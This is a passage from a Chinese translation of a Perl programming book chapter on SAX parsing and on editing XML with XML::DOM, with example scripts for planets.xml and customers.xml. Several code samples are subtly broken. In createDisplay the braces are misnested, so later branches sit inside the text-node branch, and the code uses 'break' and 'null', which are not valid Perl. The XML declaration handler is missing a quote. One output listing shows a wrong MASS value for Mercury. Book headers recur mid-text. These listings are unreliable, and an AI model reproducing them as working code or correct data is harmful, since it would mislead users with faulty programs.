SAX 解析提供了一种不基于 DOM 节点树的替代文档解析方式。特别是，SAX 解析是*基于事件的*。当解析器遇到 XML 文档中的一个项目时，这会触发一个事件，解析器会调用代码中相应的*处理程序*函数来处理该事件。例如，当 SAX 解析器遇到 XML 文档中元素的开始时，它会调用你指示用于处理元素开始的处理程序函数。当它遇到处理指令时，SAX 解析器将调用你为处理指令设置的处理程序函数，以此类推。在很多方面，这比处理 DOM 节点树要容易得多。事实上，你可能还记得我们在上一章使用 DOM 解析的示例中，我们实际上确实将代码分解成了针对不同类型项目的离散“处理程序”，例如元素的开始和结束、处理指令等等：
```perl
sub createDisplay {
    my $node = $_[0];
    my $indent = $_[1];
    if ($node == null) {
        return;
    }
```


## 第26章 XML：修改文档内容与SAX解析
```perl
my $type = $node->getNodeType();
if($type == DOCUMENT_NODE) {
 $textToDisplay[$numberTextLines] = $indent;
 $textToDisplay[$numberTextLines] .= "<?xml version=\"1.0\"?>";
 $numberTextLines++;
 createDisplay($node->getFirstChild(), "");
 break;
}
if($type == ELEMENT_NODE) {
 $textToDisplay[$numberTextLines] = $indent;
 $textToDisplay[$numberTextLines] .= "<";
 $textToDisplay[$numberTextLines] .= $node->getNodeName();
 $numberAttributes = 0;
 if($node->getAttributes() != null){
  $numberAttributes = $node->getAttributes()->getLength();
 }
 for ($loopIndex = 0; $loopIndex < $numberAttributes; $loopIndex++) {
  $attribute = ($node->getAttributes())->item($loopIndex);
  $textToDisplay[$numberTextLines] .= " ";
  $textToDisplay[$numberTextLines] .= $attribute->getNodeName();
  $textToDisplay[$numberTextLines] .= "=\"";
  $textToDisplay[$numberTextLines] .= $attribute->getNodeValue();
  $textToDisplay[$numberTextLines] .= "\"";
 }
 $textToDisplay[$numberTextLines] .= ">";
 $numberTextLines++;
 my @childNodes = $node->getChildNodes();
 if (@childNodes != null) {
  my $numberChildNodes = $#childNodes + 1;
  $indent .= " ";
  my $loopIndex;
  for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) {
   createDisplay($childNodes[$loopIndex], $indent);
  }
 }
}
if($type == TEXT_NODE) {
 $textToDisplay[$numberTextLines] = $indent;
 $nodeText = $node->getNodeValue();
 if(($nodeText =~ /^\s+/g) && length($nodeText) > 0) {
  $textToDisplay[$numberTextLines] .= $nodeText;
  $numberTextLines++;
 }
 if($type == PROCESSING_INSTRUCTION_NODE) {
  $textToDisplay[$numberTextLines] = $indent;
  $textToDisplay[$numberTextLines] .= "<?";
  $textToDisplay[$numberTextLines] .= $node->getTarget();
  $PItext = $node->getData();
  $textToDisplay[$numberTextLines] .= " " . $PItext;
  $textToDisplay[$numberTextLines] .= "?>";
  $numberTextLines++;
  createDisplay($node->getNextSibling(), $indent);
 }
 if ($type == ELEMENT_NODE) {
  $textToDisplay[$numberTextLines] = substr($indent, 0, length($indent) - 4);
  $textToDisplay[$numberTextLines] .= "</";
  $textToDisplay[$numberTextLines] .= $node->getNodeName();
  $textToDisplay[$numberTextLines] .= ">";
  $numberTextLines++;
  $indent .= " ";
 }
}
```
当我们使用SAX解析器解析XML文档时，也会像这样设置处理器，不过此次每个处理器都是独立的函数，如下所示（你可以给处理器函数随意命名，因为你只需要向SAX解析器专门注册这些函数即可）：
```perl
sub XMLDecl_handler {
 $textToDisplay[$numberTextLines++] = "<?xml version=\"$_[1]?>";
}
sub start_handler {
 $textToDisplay[$numberTextLines] = $indent . "<$_[1]";
 for ($loop_index = 2; $loop_index <= $#_ - 1; $loop_index += 2){
  $textToDisplay[$numberTextLines] .= " " . $_[$loop_index] . "=\"" . $_[$loop_index + 1] . "\"";
 }
 $textToDisplay[$numberTextLines++] .= ">";
 $indent .= " ";
}
sub end_handler {
 $indent = substr($indent, 0, length($indent) - 4);
 $textToDisplay[$numberTextLines++] = $indent . "</$_[1]>";
}
sub char_handler {
 if($_[1] =~ /[^ \t\r]/g) {
  $textToDisplay[$numberTextLines++] = $indent . "$_[1]";
 }
}
sub proc_handler {
 $textToDisplay[$numberTextLines++] = "<?$_[1] $_[2]?>";
}
sub final_handler {
 for ($loopIndex = 0; $loopIndex < $numberTextLines; $loopIndex++){
  print $textToDisplay[$loopIndex] . "\n";
 }
}
```
我们将在「即时解决方案」部分更详细地了解这些内容的运作机制。
### 即时解决方案
### 在XML文档中导航
“好吧，”初级程序员说道，“我已经把XML文档解析成了节点树。接下来该做什么？怎么把里面的数据取出来呢？”
“有很多种方法，”你回答道，“比如使用**getElementsByTagName**方法搜索特定元素，或是使用导航方法。”
新手程序员追问：「导航方法？」
你可以使用**XML::DOM**的导航方法在**XML::DOM**节点树中遍历，到达目标节点后就可以用**getNodeValue**方法提取你感兴趣的节点的数据。
正如我们在本章的「深入解析」部分所学到的，**XML::DOM**模块包含如下导航方法：
- getFirstChild
- getLastChild
- getPreviousSibling
- getNextSibling
- getChildIndex (child)
- getChildAtIndex (index)
- getParentNode
- getChildNodes
以下是一个示例。在这个例子中，我将遍历我们在上一章创建的customers.xml文件：
```xml
<?xml version = "1.0"?>
<DOCUMENT>
<CUSTOMER TYPE="good">
<NAME>
<LAST_NAME>Thomson</LAST_NAME>
<FIRST_NAME>Susan</FIRST_NAME>
</NAME>
<DATE>September 1, 2001</DATE>
<ORDERS>
<ITEM>
<PRODUCT>Video tape</PRODUCT>
<NUMBER>5</NUMBER>
<PRICE>$1.25</PRICE>
</ITEM>
<ITEM>
<PRODUCT>Shovel</PRODUCT>
<NUMBER>2</NUMBER>
<PRICE>$4.98</PRICE>
</ITEM>
</ORDERS>
</CUSTOMER>
<CUSTOMER TYPE="poor">
<NAME>
<LAST_NAME>Smithson</LAST_NAME>
<FIRST_NAME>Nancy</FIRST_NAME>
</NAME>
<DATE>September 2, 2001</DATE>
<ORDERS>
<ITEM>
<PRODUCT>Ribbon</PRODUCT>
<NUMBER>12</NUMBER>
<PRICE>$2.95</PRICE>
</ITEM>
<ITEM>
<PRODUCT>Goldfish</PRODUCT>
<NUMBER>6</NUMBER>
<PRICE>$1.50</PRICE>
</ITEM>
</ORDERS>
</CUSTOMER>
</DOCUMENT>
```
在这个名为navXML.pl的示例中，我会将该文档视为节点树进行遍历，提取其中某个元素的文本内容——比如第二个客户南希的名字。
首先我需要解析customers.xml文件：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
```
接下来我需要在得到的节点树中进行遍历。首先我要获取对应文档元素的节点引用，在customers.xml中这个文档元素是**<DOCUMENT>**（当然文档元素不一定叫这个名字，planets.xml中的文档元素就是**<PLANETS>**）：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
$documentElementNode = $doc->getDocumentElement();
```
现在我要导航到第二个**<CUSTOMER>**元素来获取该客户的名字。如果我先导航到第一个客户节点，就可以使用名为**getNextSibling**的方法跳转到下一个客户节点。因此我们可以先从导航到第一个**<CUSTOMER>**元素开始：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
$documentElementNode = $doc->getDocumentElement();
$textNode = $documentElementNode->getFirstChild();
$customer1Node = $textNode->getNextSibling();
```
你可能会觉得应该对文档元素节点使用**getFirstChild**方法来获取第一个**<CUSTOMER>**元素，但事实并非如此。**<DOCUMENT>**元素的第一个子节点其实是customers.xml中用于文本缩进的文本节点（上一章「深入解析」部分讨论过空白节点——这里的空白节点由一个换行符和四个空格组成）。因此，当我调用文档元素节点引用的**getFirstChild**方法时，得到的是**<DOCUMENT>**后方空白节点的引用：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
$documentElementNode = $doc->getDocumentElement();
$textNode = $documentElementNode->getFirstChild();
```


## 第26章 XML：修改文档内容与SAX解析
现在我们已获取第一个**<CUSTOMER>**元素的引用，要获取第二个**<CUSTOMER>**元素，看起来似乎可以直接使用**getNextSibling**方法：
```xml
<?xml version="1.0"?>
<DOCUMENT>
<CUSTOMER TYPE="good">
</CUSTOMER>
<CUSTOMER TYPE="poor">
</CUSTOMER>
</DOCUMENT>
```
不过事实并非如此——两个<CUSTOMER>元素之间存在一个空白节点，这个节点才是第一个**<CUSTOMER>**元素的真正前一个兄弟节点。这意味着我们必须先定位到空白节点，才能到达第二个**<CUSTOMER>**元素：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
$documentElementNode = $doc->getDocumentElement();
$textNode = $documentElementNode->getFirstChild();
$customer1Node = $textNode->getNextSibling();
$textNode = $customer1Node->getNextSibling();
$customer2Node = $textNode->getNextSibling();
```
如此一来你会发现，必须记住空白会被视为节点，如果你的XML解析器将它传递给你，你就不能直接跳过它。
现在我们已经定位到第二个**<CUSTOMER>**元素，可以沿用同样的方式继续操作，直到获取到第二个客户的名字：
```perl
use XML::DOM;
my $parser = new XML::DOM::Parser;
my $doc = $parser->parsefile ("customers.xml");
$documentElementNode = $doc->getDocumentElement();
$textNode = $documentElementNode->getFirstChild();
$customer1Node = $textNode->getNextSibling();
$textNode = $customer1Node->getNextSibling();
$customer2Node = $textNode->getNextSibling();
$textNode = $customer2Node->getFirstChild();
$nameNode = $textNode->getNextSibling();
$textNode = $nameNode->getFirstChild();
$lastNameNode = $textNode->getNextSibling();
$textNode = $lastNameNode->getNextSibling();
$firstNameNode = $textNode->getNextSibling();
$textNode = $firstNameNode->getFirstChild();
print("First name: " . $textNode->getNodeValue() . "\n");
```
注意在这段代码的最后，我获取了**<FIRST_NAME>**元素节点的引用，随后通过获取该元素内部文本节点的引用，再对该节点引用使用`getNodeValue`方法，取回了该节点的文本内容。在代码的最后，我输出了第二个客户的名字。
运行这个程序时，你会看到如下输出：
```bash
%perl navxml.pl
First name: Nancy
```
通过这种方式，我们就能定位到目标**<CUSTOMER>**元素，并从中提取出第二个客户的名字。不过，用这种方式处理XML文档需要你对文档结构非常熟悉，不仅要清晰掌握元素的组织与嵌套方式，还要准确了解缩进文本的使用位置。如果文档出现任何细微变动，这段代码就会失效。有没有更可靠的方法能在XML文档中搜索你想要的数据？如果你清楚文档的精确结构，逐元素遍历XML文档倒也不是不行，但有没有办法一次性搜索整个文档呢？答案是有的——请看下一节。

### 搜索特定的XML元素
大老板回来了，问道：“我就直说吧——怎么读取这个XML文档末尾的**<PROFIT>**元素里的数据？”
“嗯……”你了然于心，说，“可以用getFirstChild，然后是getFirstSibling，再是getLastChild，接下来就可以……”
“不行不行！”大老板怒道，“我现在就要看到数据！”
“好吧。”你烦闷地说，“可以用getElementsByTagName方法。”

如果想在整个XML::DOM节点树中搜索特定元素，可以使用`getElementsByTagName`。该方法会返回一个`XML::DOM NodeList`，其中包含所有匹配你指定标签名的节点。
```perl
getElementsByTagName (name [, recurse])
```
如果将这个方法的返回值赋给一个标量，该方法会返回一个**节点列表**，包含所有匹配你指定名称的后代元素，顺序与它们在文档中出现的顺序一致（即*document order*）。如果将返回值赋给数组，该方法会将所有匹配的节点填充到该数组中。

此处**name**参数是要匹配的元素名称。你可以使用通配符`*`来匹配所有元素。**recurse**参数用于指定该方法是仅返回直接（第一代）子节点（`recurse = 0`），还是返回所有匹配标签名的后代节点（`recurse = 1`）。*recurse*参数是可选的，默认值为1。

这里有一个名为`searcher.pl`的示例。接下来，我会给上一章中介绍过的`planets.xml`里的每个**<PLANET>**元素添加一个**NICKNAME**属性，每个**NICKNAME**属性都会存储对应的行星昵称：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
<PLANET>
<NAME NICKNAME="The Hottest Planet">Mercury</NAME>
<MASS UNITS="(Earth = 1)">.0553</MASS>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
<DENSITY UNITS="(Earth = 1)">.983</DENSITY>
<DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME NICKNAME="The Planet of Love">Venus</NAME>
<MASS UNITS="(Earth = 1)">.815</MASS>
<DAY UNITS="days">116.75</DAY>
<RADIUS UNITS="miles">3716</RADIUS>
<DENSITY UNITS="(Earth = 1)">.943</DENSITY>
<DISTANCE UNITS="million miles">66.8</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME NICKNAME="The Blue Planet">Earth</NAME>
<MASS UNITS="(Earth = 1)">1</MASS>
<DAY UNITS="days">1</DAY>
<RADIUS UNITS="miles">2107</RADIUS>
<DENSITY UNITS="(Earth = 1)">1</DENSITY>
<DISTANCE UNITS="million miles">128.4</DISTANCE><!--At perihelion-->
</PLANET>
</PLANETS>
```
现在我们的任务是输出所有行星的名称及其昵称。本来可以像上一节那样使用`getNextChild`等遍历方法实现，但还有一种更简便的方式——使用`getElementsByTagName`。这里我会获取一个`XML::DOM NodeList`，其中包含`planets.xml`中所有的**<NAME>**元素，之后我就可以遍历这些元素来获取我们需要的数据。

首先，解析`planets.xml`并获取文档节点的引用：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
```

接下来，使用`getElementsByTagName`获取所有**<NAME>**元素。该方法会返回一个`XML::DOM NodeList`，我将其命名为`$nodes`。我还需要获取这个`XML::DOM NodeList`中的元素数量，以便遍历这些元素，你可以通过`NodeList`的`getLength`方法获取这个数值，代码如下：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
$nodes = $doc->getElementsByTagName ("NAME");
$numberNodes = $nodes->getLength;
```

现在遍历所有找到的**<NAME>**元素：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
$nodes = $doc->getElementsByTagName ("NAME");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++) {
... }
```

每次循环迭代时，我可以通过`NodeList $nodes`的`item`方法获取当前的**<NAME>**元素节点。该方法会返回你所引用的节点的引用，因此第一次循环会得到第一个**<NAME>**元素的引用，第二次循环得到第二个**<NAME>**元素的引用，以此类推：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
$nodes = $doc->getElementsByTagName ("NAME");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++) {
$node = $nodes->item($loop_index);
}
```

此外，还可以通过获取**<NAME>**元素中文本节点的值，来得到当前行星的名称：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
$nodes = $doc->getElementsByTagName ("NAME");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++) {
$node = $nodes->item($loop_index);
$name = $nodes->item($loop_index)->getFirstChild()->getNodeValue();
}
```

接下来只需要从**NICKNAME**属性中获取行星的昵称，并输出行星的名称和昵称即可。可以通过对`$node`使用`getAttributeNode`方法获取行星**NICKNAME**属性的值。给`getAttributeNode`方法传入属性名称，它会返回对应的属性节点。要获取属性的值，只需要对该属性节点使用`getNodeValue`方法即可。代码如下：
```perl
use XML::DOM;
$parser = new XML::DOM::Parser;
$doc = $parser->parsefile ("planets.xml");
$nodes = $doc->getElementsByTagName ("NAME");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++) {
$node = $nodes->item($loop_index);
$name = $nodes->item($loop_index)->getFirstChild()->getNodeValue();
$nickname = $node->getAttributeNode ("NICKNAME")->getValue();
print $name . " is also called " . $nickname . "\n";
}
```


## 第26章 XML：修改文档内容与SAX解析

```
%perl searcher.pl
Mercury is also called The Hottest Planet
Venus is also called The Planet of Love
Earth is also called The Blue Planet
```

正如你所见，我们仅用几行代码就能在整个XML文档中进行搜索并获取所需内容。

### 创建新的XML元素

大老板怒气冲冲地闯进来。“你到底是怎么想的？”他咆哮道。“您说什么？”你问。“就这样发布planets.xml——连个版权声明都没有。”“哦，”你微笑着说，“我以为您在说什么重要的事。”“重要的事！”老板喊道，“立刻给我修好！”

如何在程序控制下将新的XML元素（例如**<COPYRIGHT>**元素）插入XML文档？你可以使用**insertBefore**和**appendChild**方法。

**insertBefore**的使用方法如下：
``` 
insertBefore (newChild, refChild)
```
此方法将在现有子节点*refChild*之前插入节点*newChild*。如果未指定*refChild*，或者它不存在，则*newChild*将被插入到调用此方法的节点的子节点列表的末尾。

**appendChild**的使用方法如下：
``` 
appendChild (newChild)
```
此方法将节点*newChild*添加到此节点的子节点列表的末尾。你可以使用此方法向元素节点添加文本节点，然后使用**insertBefore**将该元素节点插入XML文档。

下面是一个示例（insertXML.pl）来阐明这一点。在这个例子中，我将按照大老板的要求，使用**insertBefore**在planets.xml中的每个**<PLANET>**元素里插入一个**<COPYRIGHT>**元素：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
<PLANET>
<NAME>Mercury</NAME>
<MASS UNITS="(Earth = 1)">.0553</MASS>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
<DENSITY UNITS="(Earth = 1)">.983</DENSITY>
<DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
<PLANET>
<NAME>Venus</NAME>
<MASS UNITS="(Earth = 1)">.815</MASS>
<DAY UNITS="days">116.75</DAY>
<RADIUS UNITS="miles">3716</RADIUS>
<DENSITY UNITS="(Earth = 1)">.943</DENSITY>
<DISTANCE UNITS="million miles">66.8</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
<PLANET>
<NAME>Earth</NAME>
<MASS UNITS="(Earth = 1)">1</MASS>
<DAY UNITS="days">1</DAY>
<RADIUS UNITS="miles">2107</RADIUS>
<DENSITY UNITS="(Earth = 1)">1</DENSITY>
<DISTANCE UNITS="million miles">128.4</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
</PLANETS>
```

代码通常首先解析我们要处理的文档：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
```

我们想向所有<PLANET>元素添加一个<COPYRIGHT>元素，所以我将把所有<PLANET>元素放入一个名为$nodes的XML::DOM NodeList中，并这样获取<PLANET>元素的数量：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
```

我们想在每个**<PLANET>**元素中插入一个**<COPYRIGHT>**元素，所以我将遍历**<PLANET>**元素，以这种方式依次将每个元素的引用赋给**$node**：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
}
```

你实际上如何创建一个新元素以便将其插入planets.xml？你可以使用**createElement**方法，调用方式如下：
``` 
createElement(tagName)
```
你在文档节点上调用此方法，它会创建一个具有你指定为**tagName**的标签名的新空元素。我可以创建一个名为**<COPYRIGHT>**的新元素，并将其作为当前**<PLANET>**元素的最后一个子节点插入，就像这样（如本节开头所述，如果你使用**insertBefore**而不指定参考子节点，插入的节点将成为你调用此方法的节点的最后一个子节点，因此**<COPYRIGHT>**元素将成为当前**<PLANET>**元素的最后一个子节点）：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$copyright = $doc->createElement("COPYRIGHT");
$node->insertBefore($copyright);
. . .
}
```

这创建了新的**<COPYRIGHT>**元素并将其插入，但这个元素还没有内容。要赋予它文本内容，比如"(c)2002"，我可以通过在文档节点上调用**createTextNode**方法来创建一个新的文本节点。**createTextNode**的使用方法如下：
``` 
createTextNode (data)
```
此方法使用字符串*data*创建一个文本节点。这是我创建将用于**<COPYRIGHT>**元素的文本节点的方法：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$copyright = $doc->createElement("COPYRIGHT");
$node->insertBefore($copyright);
$text = $doc->createTextNode("(c)2002");
. . .
}
```

然后我可以使用**appendChild**方法将该文本节点附加到新的**<COPYRIGHT>**元素上，完成所有这些操作后，我可以使用上一章首次介绍的**printToFile**方法将新文档写入新文件planets2.xml：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$copyright = $doc->createElement("COPYRIGHT");
$node->insertBefore($copyright);
$text = $doc->createTextNode("(c)2002");
$copyright->appendChild($text);
}
$doc->printToFile("planets2.xml");
```

这就是你需要做的全部。现在我们已经向planets.xml中插入了新元素，赋予了它们文本内容，并将整个文档写入了新文件planets2.xml。创建新元素就讲到这里——那么创建新属性呢？

### 创建新的XML属性

“不，不，不，”大老板说，“我不是想创建新的XML元素——我是想创建新的*属性*。”“新属性？”你问，“好吧，没问题，你可以使用**setAttribute**方法。”“你是说，”老板说，“*你*可以使用**setAttribute**方法。”

在上一节中，我们向planets.xml插入了一个新元素；现在我们将对属性做同样的事情，使用**setAttribute**方法，你在元素节点上调用它：
``` 
setAttribute (name, value)
```
这里，***name***只是新属性的名称，***value***是新属性的值。例如，如果我想给planets.xml中的行星编号，我只需在我们在上一节开发的insertXML.pl中做以下添加，就能为每个**<PLANET>**元素添加一个**NUMBER**属性：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc= $dom->parsefile("planets.xml");
$nodes= $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$node->setAttribute("NUMBER" => $loop_index + 1);
$copyright= $doc->createElement("COPYRIGHT");
$node->insertBefore($copyright);
$text = $doc->createTextNode("(c)2002");
$copyright->appendChild($text);
}
$doc->printToFile("planets2.xml");
```

现在当你运行insertXML.pl时，它会读取planets.xml并创建这个新版本的planets2.xml。注意每个**<PLANET>**元素上添加的**NUMBER**属性：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
<PLANET NUMBER="1">
<NAME>Mercury</NAME>
<MASS UNITS="(Earth = 1)">.0553</MASS>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
```

### 即时解决方案

## 第26章 XML：修改文档内容与SAX解析
### 替换XML元素
```xml
<PLANETS>
<PLANET NUMBER="1">
<NAME>Mercury</NAME>
<MASS UNITS="(Earth = 1)">.983</MASS>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
<DENSITY UNITS="(Earth = 1)">.983</DENSITY>
<DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
<PLANET NUMBER="2">
<NAME>Venus</NAME>
<MASS UNITS="(Earth = 1)">.815</MASS>
<DAY UNITS="days">116.75</DAY>
<RADIUS UNITS="miles">3716</RADIUS>
<DENSITY UNITS="(Earth = 1)">.943</DENSITY>
<DISTANCE UNITS="million miles">66.8</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
<PLANET NUMBER="3">
<NAME>Earth</NAME>
<MASS UNITS="(Earth = 1)">1</MASS>
<DAY UNITS="days">1</DAY>
<RADIUS UNITS="miles">2107</RADIUS>
<DENSITY UNITS="(Earth = 1)">1</DENSITY>
<DISTANCE UNITS="million miles">128.4</DISTANCE><!--At perihelion-->
<COPYRIGHT>(c)2002</COPYRIGHT>
</PLANET>
</PLANETS>
```
除了本章已经介绍的添加新元素的方法外，你还可以使用**replaceChild**方法来替换XML文档中的元素：
```perl
replaceChild(newChild, oldChild)
```
该方法会将你调用该方法的节点的子节点列表中的*旧子节点（oldChild）*替换为*新子节点（newChild）*。
举个例子，我将编写一段代码，把planets.xml中的**<MASS>**元素替换为新的**<SHAPE>**元素，用来表示每颗行星的形状：
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="planets.xsl"?>
<PLANETS>
<PLANET>
<NAME>Mercury</NAME>
<SHAPE>Round</SHAPE>
<DAY UNITS="days">58.65</DAY>
<RADIUS UNITS="miles">1516</RADIUS>
<DENSITY UNITS="(Earth = 1)">.983</DENSITY>
<DISTANCE UNITS="million miles">43.4</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME>Venus</NAME>
<SHAPE>Round</SHAPE>
<DAY UNITS="days">116.75</DAY>
<RADIUS UNITS="miles">3716</RADIUS>
<DENSITY UNITS="(Earth = 1)">.943</DENSITY>
<DISTANCE UNITS="million miles">66.8</DISTANCE><!--At perihelion-->
</PLANET>
<PLANET>
<NAME>Earth</NAME>
<SHAPE>Round</SHAPE>
<DAY UNITS="days">1</DAY>
<RADIUS UNITS="miles">2107</RADIUS>
<DENSITY UNITS="(Earth = 1)">1</DENSITY>
<DISTANCE UNITS="million miles">128.4</DISTANCE><!--At perihelion-->
</PLANET>
</PLANETS>
```
你可能会觉得，要完成这类元素节点的替换，我们只需要用**getElementsByTagName**获取所有**<MASS>**元素，再在得到的**XML::DOM NodeList**中把它们简单替换为**<SHAPE>**元素就可以了。但实际上这行不通，因为**getElementsByTagName**返回的**NodeList**不是“实时的”，也就是说，修改这个列表中的节点并不会修改实际节点树中的对应节点（根据W3C DOM规范，这个**NodeList**应该是实时的，但当前版本的**XML::DOM**还没有实现这一特性）。相反，你可以使用**replaceChild**方法来替换节点树中的节点。这个方法稍微绕一点，因为你需要在你要替换的节点的父节点上调用该方法，所以我会先获取所有**<PLANET>**元素（也就是**<MASS>**元素的父节点），然后遍历它们：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc = $dom->parsefile("planets.xml");
$nodes = $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
# ... (rest of loop body)
}
```
接下来，我将创建要使用的新**<SHAPE>**元素：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc = $dom->parsefile("planets.xml");
$nodes = $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$shape = $doc->createElement("SHAPE");
$text = $doc->createTextNode("Round");
$shape->appendChild($text);
# ... (rest of loop body)
}
$doc->printToFile("planets2.xml");
```
到这一步，我只需要找到当前**<PLANET>**元素下的所有**<MASS>**子元素，并将它们替换为**<SHAPE>**元素即可。首先，我会用**getChildNodes**方法获取当前**<PLANET>**元素的所有子节点。该方法会返回一个**XML::DOM NodeList**，如果能通过指定名称来获取节点自然更方便，但**NodeList**对象只允许通过索引编号获取节点，因此我们需要遍历子节点，直到找到**<MASS>**子节点，代码如下：
```perl
@childNodes = $node->getChildNodes();
if (@childNodes != null) {
$numberChildNodes = $#childNodes + 1;
for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) {
if(($childNodes[$loopIndex])->getNodeName() eq "MASS"){
# ... (replacement code)
}
}
}
```
当我们最终找到目标<MASS>元素节点后，就可以用replaceChild方法将其替换为新的<SHAPE>节点。我还会把新文档写入新文件planets2.xml中：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc = $dom->parsefile("planets.xml");
$nodes = $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength;
for (my $loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
$shape = $doc->createElement("SHAPE");
$text = $doc->createTextNode("Round");
$shape->appendChild($text);
@childNodes = $node->getChildNodes();
if (@childNodes != null) {
$numberChildNodes = $#childNodes + 1;
for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) {
if(($childNodes[$loopIndex])->getNodeName() eq "MASS"){
$node->replaceChild($shape, $childNodes[$loopIndex]);
}
}
}
}
$doc->printToFile("planets2.xml");
```
以上就是全部操作步骤。现在我们已经能够将XML元素替换为全新的元素了。
### 删除XML元素
“哎呀，”刚入门的新手程序员说，“我不小心给XML元素添加了一个多余的子元素！”
“别担心，”你告诉他，“有办法删除元素——你可以使用**removeChild**方法。”
以下是**removeChild**方法的使用方式：
```perl
removeChild(oldChild)
```
该方法会从你调用它的节点的子节点列表中移除指定的子节点。
举个例子，见deletexml.pl文件。上一节中我们把planets.xml里的**<MASS>**元素替换为了**<SHAPE>**元素；这一节我将改用**removeChild**方法，直接移除planets.xml中的所有**<MASS>**元素：
```perl
use XML::DOM;
$dom = new XML::DOM::Parser;
$doc = $dom->parsefile("planets.xml");
$nodes = $doc->getElementsByTagName("PLANET");
$numberNodes = $nodes->getLength();
for ($loop_index = 0; $loop_index < $numberNodes; $loop_index++){
$node = $nodes->item($loop_index);
@childNodes = $node->getChildNodes();
if (@childNodes != null) {
$numberChildNodes = $#childNodes + 1;
for ($loopIndex = 0; $loopIndex < $numberChildNodes; $loopIndex++ ) {
if(($childNodes[$loopIndex])->getNodeName() eq "MASS"){
$node->removeChild($childNodes[$loopIndex]);
}
}
}
}
